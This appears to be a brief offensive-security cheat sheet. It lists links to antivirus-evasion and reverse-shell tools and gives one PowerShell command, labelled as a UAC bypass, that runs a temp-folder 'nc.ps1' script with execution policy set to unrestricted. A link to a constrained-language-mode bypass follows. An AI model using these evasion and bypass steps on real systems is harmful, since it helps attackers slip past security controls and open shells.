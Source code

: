 AV
---

https://github.com/EgeBalci/Amber
https://github.com/Genetic-Malware/Ebowla
https://github.com/lesnuages/hershell


POWERSHELL
---
```
PowerShell -NoProfile -ExecutionPolicy Unrestricted -Command "& {Start-Process PowerShell -ArgumentList '-NoProfile -ExecutionPolicy Unrestricted -File ""...\Temp\nc.ps1""'}"; (UAC Bypass)

```
https://github.com/padovah4ck/PSByPassCLM
